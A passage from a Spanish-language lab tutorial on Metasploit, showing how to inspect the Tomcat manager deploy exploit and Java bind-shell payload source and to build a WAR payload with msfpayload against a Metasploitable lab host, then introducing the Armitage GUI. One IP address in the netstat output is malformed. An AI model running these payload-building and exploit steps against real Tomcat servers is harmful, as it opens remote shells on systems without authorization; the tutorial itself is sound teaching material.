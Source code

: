         metasploitable:~$ netstat -tn
        Active Internet connections (w/o servers)
        Proto Recv-Q Send-Q Local Address           Foreign Address         State      
        tcp        0      0 198.51.100.222:57091   1198.51.100.111:22222   ESTABLISHED

5.  Inspección del código del exploit y del PAYLOAD

    Se puede ver el código Ruby con la implementación del exploit y del
    PAYLOAD

        atacante:~# less /opt/metasploit/apps/pro/msf3/modules/exploits/multi/http/tomcat_mgr_deploy.rb
                       < ver función exploit >

        atacante:~# less /opt/metasploit/apps/pro/msf3/modules/payloads/stagers/java/bind_tcp.rb 
        atacante:~# less /opt/metasploit/apps/pro/msf3/modules/payloads/stages/java/shell.rb 
        atacante:~# less /opt/metasploit/apps/pro/msf3/lib/msf/core/payload/java.rb 

    También está disponible el código Java inyectado por el exploit
    responsable de crear el intérprete de comandos y ponerse a la
    escucha. (ver )

        atacante:~# less /opt/metasploit/apps/pro/msf3/external/source/javapayload/src/javapayload/stage/Shell.java 
        atacante:~# less /opt/metasploit/apps/pro/msf3/external/source/javapayload/src/metasploit/Payload.java 
        atacante:~# less /opt/metasploit/apps/pro/msf3/external/source/javapayload/src/metasploit/PayloadServlet.java 

    Tamién se puede ver el aspecto que tendría un fichero WAR con el
    PAYLOAD seleccionado (no es exactamente el que desplegará el exploit
    anterior)

        atacante:~# msfpayload java/shell/bind_tcp LPORT=33333 RHOST=198.51.100.222 W > /tmp/ejemplo.war
        atacante:~# cd /tmp
        atacante:/tmp# jar xvf ejemplo.war
        atacante:/tmp# less WEB-INF/web.xml 
        atacante:/tmp# ls -l WEB-INF/classes/metasploit/*

Uso del interfaz gráfico `armitage`
-----------------------------------

es un interfaz gráfico alternativo para Metasploit que pretende
simplificar el uso del framework. Hace uso del servidor RPC integrado en
el framework (`msfrpcd`) para acceder a las funcionalidades que ofrece
Metasploit.

-   Mejora el interfaz (visualización de hosts, acceso simplificado a
    los módulos y a su información y opciones, etc)

-   Automatiza ciertas tareas, como el emparejamiento entre hosts y
    servicios y entre servicios y exploits aplicables.

-   Simplifica la configuración de exploits y payloads.

-   Permite la gestión y coordinación de multiples sesiones abiertas en
    las vícitmas

### Inicio y uso básico
